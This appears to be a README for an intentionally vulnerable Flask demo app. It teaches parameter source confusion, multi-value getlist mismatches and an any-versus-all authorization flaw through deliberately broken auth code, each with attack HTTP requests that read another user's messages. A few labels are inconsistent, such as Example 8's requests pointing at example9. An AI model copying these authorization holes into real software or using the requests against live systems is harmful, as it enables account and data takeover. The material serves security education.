

# Parameter Source Confusion Vulnerabilities in Flask
This directory contains examples demonstrating various patterns of parameter source confusion vulnerabilities in Flask applications. These examples show how mixing different parameter sources (query strings, form data, and request.values) can lead to security vulnerabilities.
## Overview

Parameter source confusion occurs when an application retrieves the same parameter from different sources in different parts of the code. This can lead to security vulnerabilities when authentication and data access use different sources for the same parameter.

Here you can find several examples on how Flask framework design allows those vulnerabilities to be present.

## Table of Contents

| Category | Example | File |
|:---:|:---:|:---:|
| Secure Baseline | [Example 0: Secure Implementation](#ex-0) | [routes.py](routes.py#L51-L67) |
| Simplified Vulnerability Patterns | [Example 1: Basic Parameter Source Confusion](#ex-1) | [r01_simplified_patterns/routes.py](r01_simplified_patterns/routes.py#L40-L54) |
| Simplified Vulnerability Patterns | [Example 2: Function-Level Parameter Source Confusion](#ex-2) | [r01_simplified_patterns/routes.py](r01_simplified_patterns/routes.py#L64-L88) |
| Simplified Vulnerability Patterns | [Example 3: Cross-Module Parameter Source Confusion](#ex-3) | [r01_simplified_patterns/routes.py](r01_simplified_patterns/routes.py#L104-L120) |
| Source Merging in Custom Helper Function | [Example 4: Form-Query Priority Resolution](#ex-4) | [r02_custom_helpers/routes.py](r02_custom_helpers/routes.py#L54-L69) |
| Source Merging in Custom Helper Function | [Example 5: Mixed-Source Authentication](#ex-5) | [r02_custom_helpers/routes.py](r02_custom_helpers/routes.py#L83-L98) |
| Request.values Confusion | [Example 6: Form Authentication Bypass](#ex-6) | [r03_request_values/routes.py](r03_request_values/routes.py#L70-L87) |
| Request.values Confusion | [Example 7: Request.Values in Authentication](#ex-7) | [r03_request_values/routes.py](r03_request_values/routes.py#L102-L118) |
| Decorator-based Authentication | [Example 8: Decorator-based Authentication](#ex-8) | [r04_decorator/routes.py](r04_decorator/routes.py#L18-L24) |
| Middleware-based Authentication | [Example 9: Middleware-based Authentication](#ex-9) | [r05_middleware/routes.py](r05_middleware/routes.py#L18-L23) |
| Multi-Value Parameters | [Example 11: [Not Vulnerable] First Item Checked, First Item Used](#ex-11) | [r06_multi_value/routes.py](r06_multi_value/routes.py#L18-L23) |
| Multi-Value Parameters | [Example 12: Utility Reuse Mismatch — .get vs .getlist](#ex-12) | [r06_multi_value/routes.py](r06_multi_value/routes.py#L41-L49) |
| Multi-Value Parameters | [Example 13: Any vs All — Fail-Open Authorization for Batch Actions](#ex-13) | [r06_multi_value/routes.py](r06_multi_value/routes.py#L61-L68) |

## Secure Baseline
<a id="ex-0"></a>

### Example 0: Secure Implementation
Here you can see a secure implementation that consistently uses query string parameters for both authentication and data retrieval.
```python
@bp.route("/example0", methods=["GET", "POST"])
def example0():
    # Extract the user name from the query string arguments
    user = request.args.get("user", None)

    # Validate the user name
    password = db["passwords"].get(user, None)
    if password is None or password != request.args.get("password", None):
        return "Invalid user or password", 401

    # Retrieve the messages for the user
    messages = db["messages"].get(user, None)
    if messages is None:
        return "No messages found", 404

    # return the messages
    return messages
```
<details open>
<summary><b>See HTTP Request</b></summary>

```http
GET http://localhost:8000/vuln/confusion/parameter-source/example0?user=alice&password=123456
```
</details>


## Simplified Vulnerability Patterns
<a id="ex-1"></a>

### Example 1: Basic Parameter Source Confusion
Demonstrates the most basic form of parameter source confusion where authentication uses **query** parameters but data retrieval uses **form** data.

We take the user name from the query string during the validation, but during the data retrieval another value is used, taken from the request body (form). This does not look very realistic, but it demonstrates the core of the vulnerability, we will build upon this further.

Here you can see if we provide bob's name in the request body, we can access his messages without his password.
```python
@bp.route("/example1", methods=["GET", "POST"])
def example1():
    user = request.args.get("user", None)

    password = db["passwords"].get(user, None)
    if password is None or password != request.args.get("password", None):
        return "Invalid user or password", 401

    # Use the POST value which was not validated!
    user = request.form.get("user", None)
    messages = db["messages"].get(user, None)
    if messages is None:
        return "No messages found", 404

    return messages
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
# Expected Usage:
GET http://localhost:8000/vuln/confusion/parameter-source/example1?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=alice
###

# Attack
GET http://localhost:8000/vuln/confusion/parameter-source/example1?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=bob
```

</details>


<a id="ex-2"></a>

### Example 2: Function-Level Parameter Source Confusion
Functionally equivalent to example 1, but shows how separating authentication and data retrieval into different functions can make the vulnerability harder to spot.
```python
def authenticate(user, password):
    if password is None or password != db["passwords"].get(user, None):
        return False
    return True


def get_messages(user):
    messages = db["messages"].get(user, None)
    if messages is None:
        return None
    return {"owner": user, "messages": messages}


@bp.route("/example2", methods=["GET", "POST"])
def example2():
    if not authenticate(
        request.args.get("user", None), request.args.get("password", None)
    ):
        return "Invalid user or password", 401

    messages = get_messages(request.form.get("user", None))
    if messages is None:
        return "No messages found", 404

    return messages
```
<details open>
<summary><b>See HTTP Request</b></summary>

```http
# Expected Usage:
GET http://localhost:8000/vuln/confusion/parameter-source/example2?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=alice
#
# Normally, Alice would get her *own* messages:
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Alice, you're fired!"
#  }
# ]
#
###

# Attack
GET http://localhost:8000/vuln/confusion/parameter-source/example2?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=bob
#
# Alice gets Bob's messages, even though she provided her own password!
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Bob, here is the password you asked for: P@ssw0rd!"
#  },
#  {
#    "from": "michael",
#    "message": "Hi Bob, come to my party on Friday! The secret passphrase is 'no-one-knows-it'!"
#  }
# ]
```
</details>

<a id="ex-3"></a>

### Example 3: Cross-Module Parameter Source Confusion
In the previous example, you can still see that the `user` value gets retrieved from the `request.args` during validation but from the `request.form` during data retrieval.

A more subtle example, where this is not immediately obvious (imagine, `authenticate_user` is defined in an another file altogether):
```python
def authenticate_user():
    """Authenticate the user, based solely on the request query string."""
    return authenticate(
        request.args.get("user", None), request.args.get("password", None)
    )


@bp.route("/example3", methods=["GET", "POST"])
def example3():
    if not authenticate_user():
        return "Invalid user or password", 401

    messages = get_messages(request.form.get("user", None))
    if messages is None:
        return "No messages found", 404

    return messages
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
# Expected Usage:
GET http://localhost:8000/vuln/confusion/parameter-source/example3?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=alice
#
# Normally, Alice would get her *own* messages:
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Alice, you're fired!"
#  }
# ]
#
###

# Attack
GET http://localhost:8000/vuln/confusion/parameter-source/example3?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=bob
#
# Alice gets Bob's messages, even though she provided her own password!
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Bob, here is the password you asked for: P@ssw0rd!"
#  },
#  {
#    "from": "michael",
#    "message": "Hi Bob, come to my party on Friday! The secret passphrase is 'no-one-knows-it'!"
#  }
# ]
```

</details>


## Source Merging in Custom Helper Function
The examples 1-3 are realistic and some are hard to detect, but there are still two issues with it:

1. The situation is unlikely to occur in exactly this way, because here the request doesn't work at all if the `user` gets passed only via the query string (it HAS to pass two `user` values, through query string and the body argument).


2. The second issue is that while calling verification function explicitly is valid, a more common pattern is either using a decorator or a middleware.

Let's see how we can resolve those issues.
<a id="ex-4"></a>

### Example 4: Form-Query Priority Resolution
Shows how a helper function that implements source prioritization can create vulnerabilities.

In Example 4 we don't need to specify body parameters to get a result (which is now more realistic!), but if we want, we can still access bob's messages by passing his user name in the request body:
```python
def get_user():
    user_from_form = request.form.get("user", None)
    user_from_args = request.args.get("user", None)

    return user_from_form or user_from_args


@bp.route("/example4", methods=["GET", "POST"])
def example4():
    if not authenticate_user():
        return "Invalid user or password", 401

    messages = get_messages(get_user())
    if messages is None:
        return "No messages found", 404
    return messages
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
# Expected Usage:
GET http://localhost:8000/vuln/confusion/parameter-source/example4?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=alice
#
# Normally, Alice would get her *own* messages:
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Alice, you're fired!"
#  }
# ]
#
###

# Attack
GET http://localhost:8000/vuln/confusion/parameter-source/example4?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=bob
#
# Alice gets Bob's messages, even though she provided her own password!
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Bob, here is the password you asked for: P@ssw0rd!"
#  },
#  {
#    "from": "michael",
#    "message": "Hi Bob, come to my party on Friday! The secret passphrase is 'no-one-knows-it'!"
#  }
# ]
```

</details>

<a id="ex-5"></a>

### Example 5: Mixed-Source Authentication
Shows how authentication and data access can use different combinations of sources.

This one is interesting, because you can access Bob's messages by providing his username and Alice's password in the request query, while providing Alice's username in the request body:
```python
def authenticate_user_example5():
    """Authenticate the user, based solely on the request query string."""
    user = get_user()
    password = request.args.get("password", None)
    return authenticate(user, password)


@bp.route("/example5", methods=["GET", "POST"])
def example5():
    if not authenticate_user_example5():
        return "Invalid user or password", 401

    messages = get_messages(request.args.get("user", None))
    if messages is None:
        return "No messages found", 404
    return messages
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
# Expected Usage:
GET http://localhost:8000/vuln/confusion/parameter-source/example5?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=alice
#
# Normally, Alice would get her *own* messages:
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Alice, you're fired!"
#  }
# ]
#
###

# Attack
GET http://localhost:8000/vuln/confusion/parameter-source/example5?user=bob&password=123456
Content-Type: application/x-www-form-urlencoded

user=alice
#
# Alice gets Bob's messages, even though she provided her own password!
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Bob, here is the password you asked for: P@ssw0rd!"
#  },
#  {
#    "from": "michael",
#    "message": "Hi Bob, come to my party on Friday! The secret passphrase is 'no-one-knows-it'!"
#  }
# ]
```

</details>


## Request.values Confusion
<a id="ex-6"></a>

### Example 6: Form Authentication Bypass
The endpoint uses form data for authentication, but request.values.get() allows query parameters to override form values, creating a vulnerability. Although designed for POST requests, the endpoint accepts both GET and POST methods, enabling the attack.

Note that although the regular usage would rely on POST request (or PUT, PATCH, etc.), and wouldn't work with GET (because flask's request.values ignores form data in GET requests), the attacker can send both GET and POST requests (if the endpoint is configured to accept both methods).

```http
POST /vuln/confusion/parameter-source/example6? HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26

user=alice&password=123456
```

However, the attacker can send both GET and POST requests (if the endpoint is configured to accept both methods).
```python
def authenticate_user_example6():
    """Authenticate the user, based solely on the request body."""
    return authenticate(
        request.form.get("user", None), request.form.get("password", None)
    )


@bp.route("/example6", methods=["GET", "POST"])
def example6():
    if not authenticate_user_example6():
        return "Invalid user or password", 401

    # The vulnerability occurs because flask's request.values merges the form and query string
    messages = get_messages(request.values.get("user", None))
    if messages is None:
        return "No messages found", 404

    return messages
```
<details open>
<summary><b>See HTTP Request</b></summary>

```http
# Regular requests would pass credentials solely via POST body:
POST http://localhost:8000/vuln/confusion/parameter-source/example6
Content-Type: application/x-www-form-urlencoded

user=alice&password=123456

# And as usual, Alice would get her *own* messages:
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Alice, you're fired!"
#  }
# ]
#

###

# Attacker can get Alice's messages by adding user=alice to the query string:
POST http://localhost:8000/vuln/confusion/parameter-source/example6?user=bob
Content-Type: application/x-www-form-urlencoded

user=alice&password=123456
###

# Notably, attack works even with the GET request, assuming it's enabled:
GET http://localhost:8000/vuln/confusion/parameter-source/example6?user=bob
Content-Type: application/x-www-form-urlencoded

user=alice&password=123456

# Alice gets Bob's messages, even though she provided her own password!
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Bob, here is the password you asked for: P@ssw0rd!"
#  },
#  {
#    "from": "michael",
#    "message": "Hi Bob, come to my party on Friday! The secret passphrase is 'no-one-knows-it'!"
#  }
# ]
```
</details>


<a id="ex-7"></a>

### Example 7: Request.Values in Authentication
Demonstrates how using request.values in authentication while using form data for access creates vulnerabilities.

This is an example of a varient of example 6, as we do the similar thing, but now we can pass Bob's username in the request body with Alice's password, while passing Alice's username in the request query. Note that this example does not work with GET request, use POST.
```python
def authenticate_user_example7():
    """Authenticate the user, based solely on the request body."""
    return authenticate(
        request.values.get("user", None), request.values.get("password", None)
    )


@bp.route("/example7", methods=["GET", "POST"])
def example7():
    if not authenticate_user_example7():
        return "Invalid user or password", 401

    messages = get_messages(request.form.get("user", None))
    if messages is None:
        return "No messages found", 404

    return messages
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
# Regular requests would pass credentials solely via POST body:
POST http://localhost:8000/vuln/confusion/parameter-source/example7
Content-Type: application/x-www-form-urlencoded

user=alice&password=123456

# And as usual, Alice would get her *own* messages:
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Alice, you're fired!"
#  }
# ]
#

###

# Attacker can get Alice's messages by adding user=alice to the query string:
POST http://localhost:8000/vuln/confusion/parameter-source/example7?user=alice
Content-Type: application/x-www-form-urlencoded

user=bob&password=123456
```

</details>



## Decorator-based Authentication
<a id="ex-8"></a>

### Example 8: Decorator-based Authentication
Shows how using decorators can obscure parameter source confusion.

Example 8 is functionally equivalent to Example 4, but it may be harder to spot the vulnerability while using decorators.
```python
@bp.route("/example8", methods=["GET", "POST"])
@authentication_required
def example8():
    messages = get_messages(get_user())
    if messages is None:
        return "No messages found", 404
    return messages

def authentication_required(f):
    @wraps(f)
    def decorated_example8(*args, **kwargs):
        if not authenticate():
            return "Invalid user or password", 401
        return f(*args, **kwargs)

    return decorated_example8
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
# Expected Usage:
GET http://localhost:8000/vuln/confusion/parameter-source/example9?user=alice&password=123456
#
# Normally, Alice would get her *own* messages:
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Alice, you're fired!"
#  }
# ]
#
###

# Attack
GET http://localhost:8000/vuln/confusion/parameter-source/example9?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=bob
#
# Alice gets Bob's messages, even though she provided her own password!
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Bob, here is the password you asked for: P@ssw0rd!"
#  },
#  {
#    "from": "michael",
#    "message": "Hi Bob, come to my party on Friday! The secret passphrase is 'no-one-knows-it'!"
#  }
# ]
```

</details>

## Middleware-based Authentication
<a id="ex-9"></a>

### Example 9: Middleware-based Authentication
Demonstrates how Flask's middleware system can contribute to parameter source confusion.

Example 9 is functionally equivalent to Example 4, but it may be harder to spot the vulnerability while using middleware.
```python
@bp.route("/example9", methods=["GET", "POST"])
def example9():
    messages = get_messages(get_user(request))
    if messages is None:
        return "No messages found", 404
    return messages

def register_middleware(app):
    @app.before_request
    def verify_user():
        """Authenticate the user, based solely on the request query string."""
        if not authenticate(
            request.args.get("user", None), request.args.get("password", None)
        ):
            return "Invalid user or password", 401

        # In Flask, if the middleware returns non-None value, the value is handled as if it was
        # the return value from the view, and further request handling is stopped
        return None

    return verify_user
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
# Expected Usage:
GET http://localhost:8000/vuln/confusion/parameter-source/example9?user=alice&password=123456
#
# Normally, Alice would get her *own* messages:
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Alice, you're fired!"
#  }
# ]
#
###

# Attack
GET http://localhost:8000/vuln/confusion/parameter-source/example9?user=alice&password=123456
Content-Type: application/x-www-form-urlencoded

user=bob
#
# Alice gets Bob's messages, even though she provided her own password!
#
# [
#  {
#    "from": "kevin",
#    "message": "Hi Bob, here is the password you asked for: P@ssw0rd!"
#  },
#  {
#    "from": "michael",
#    "message": "Hi Bob, come to my party on Friday! The secret passphrase is 'no-one-knows-it'!"
#  }
# ]
```

</details>

## Multi-Value Parameters
<a id="ex-11"></a>

### Example 11: [Not Vulnerable] First Item Checked, First Item Used
This example is not vulnerable and is meant to demonstrate how the vulnerability could realistically get added to the codebase during refactoring.

We start by implementing a helper function `@check_group_membership` that checks that the user is a member of the group which messages are being accessed.
```python
@bp.post("/example11")
@authentication_required
@check_group_membership
def example11():
    """Admin-level endpoint to access user's messages."""
    return get_group_messages(request.form.get("group", None))

def check_group_membership(f):
    @wraps(f)
    def decorated_check_group_membership(*args, **kwargs):
        user = request.form.get("user", None)
        group = request.form.get("group", None)

        if not is_group_member(user, group):
            return "Forbidden: not an member for the requested group", 403
        return f(*args, **kwargs)
    return decorated_check_group_membership
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
### Expected usage: Mr. Krabs is an admin of the staff group and should be able to access the group messages
POST http://localhost:8000/vuln/confusion/parameter-source/example11
Content-Type: application/x-www-form-urlencoded

user=mr.krabs@krusty-krab.sea&password=$$$money$$$&group=staff@krusty-krab.sea
###
# Plankton is able to access his own group's messages
POST http://localhost:8000/vuln/confusion/parameter-source/example11
Content-Type: application/x-www-form-urlencoded

user=plankton@chum-bucket.sea&password=burgers-are-yummy&group=staff@chum-bucket.sea
###
# But Plankton is not able to access the Krusty Krab's messages
POST http://localhost:8000/vuln/confusion/parameter-source/example11
Content-Type: application/x-www-form-urlencoded

user=plankton@chum-bucket.sea&password=burgers-are-yummy&group=staff@chum-bucket.sea&group=staff@krusty-krab.sea
```

</details>

<a id="ex-12"></a>

### Example 12: Utility Reuse Mismatch — .get vs .getlist
Builds upon the previous example. Consider that we need to add a new API endpoint that allows the user to access the messages of multiple groups in a single request.

We start by copying the previous implementation and changing the function body to iterate over all the groups in the request.

The code looks clean and works nicely for the "happy path", but it is vulnerable as the function body now acts on the unverified data – remember that `@check_group_membership` only checks the first group in the request.
```python
@bp.post("/example12")
@authentication_required
@check_group_membership
def example12():
    """Admin-level endpoint to access user's messages."""
    messages = {}
    for group in request.form.getlist("group"):
        messages[group] = get_group_messages(group)
    return messages
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
### Expected usage: Mr. Krabs is an admin of the staff group and should be able to access the group messages
POST http://localhost:8000/vuln/confusion/parameter-source/example12
Content-Type: application/x-www-form-urlencoded

user=mr.krabs@krusty-krab.sea&password=$$$money$$$&group=staff@krusty-krab.sea&group=managers@krusty-krab.sea
###
# Plankton is able to access his own group's messages
POST http://localhost:8000/vuln/confusion/parameter-source/example12
Content-Type: application/x-www-form-urlencoded

user=plankton@chum-bucket.sea&password=burgers-are-yummy&group=staff@chum-bucket.sea
###
# But now Plankton is able to access the Krusty Krab's messages
POST http://localhost:8000/vuln/confusion/parameter-source/example12
Content-Type: application/x-www-form-urlencoded

user=plankton@chum-bucket.sea&password=burgers-are-yummy&group=staff@chum-bucket.sea&group=staff@krusty-krab.sea&group=managers@krusty-krab.sea
```

</details>

<a id="ex-13"></a>

### Example 13: Any vs All — Fail-Open Authorization for Batch Actions
Authorization incorrectly uses `any()` over the requested groups, allowing a user who is an admin of one group to grant membership for additional groups in the same request. The action then applies to every provided group. Correct behavior would require `all()`.
```python
@bp.post("/example13")
@authentication_required
@check_multi_group_membership
def example13():
    messages = {}
    for group in request.form.getlist("group"):
        messages[group] = get_group_messages(group)
    return messages

def check_multi_group_membership(f):
    @wraps(f)
    def decorated_check_multi_group_membership(*args, **kwargs):
        user = request.form.get("user", None)
        groups = request.form.getlist("group", None)

        if not any(is_group_member(user, group) for group in groups):
            return "Forbidden: not an member for any requested group", 403
        return f(*args, **kwargs)
    return decorated_check_multi_group_membership
```
<details>
<summary><b>See HTTP Request</b></summary>

```http
### Expected usage: Mr. Krabs is an admin of the staff group and should be able to access the group messages
POST http://localhost:8000/vuln/confusion/parameter-source/example13
Content-Type: application/x-www-form-urlencoded

user=mr.krabs@krusty-krab.sea&password=$$$money$$$&group=staff@krusty-krab.sea&group=managers@krusty-krab.sea
###
# Plankton is able to access his own group's messages
POST http://localhost:8000/vuln/confusion/parameter-source/example13
Content-Type: application/x-www-form-urlencoded

user=plankton@chum-bucket.sea&password=burgers-are-yummy&group=staff@chum-bucket.sea
###
# But now Plankton is able to access the Krusty Krab's messages
POST http://localhost:8000/vuln/confusion/parameter-source/example13
Content-Type: application/x-www-form-urlencoded

user=plankton@chum-bucket.sea&password=burgers-are-yummy&group=staff@chum-bucket.sea&group=staff@krusty-krab.sea&group=managers@krusty-krab.sea
```

</details>

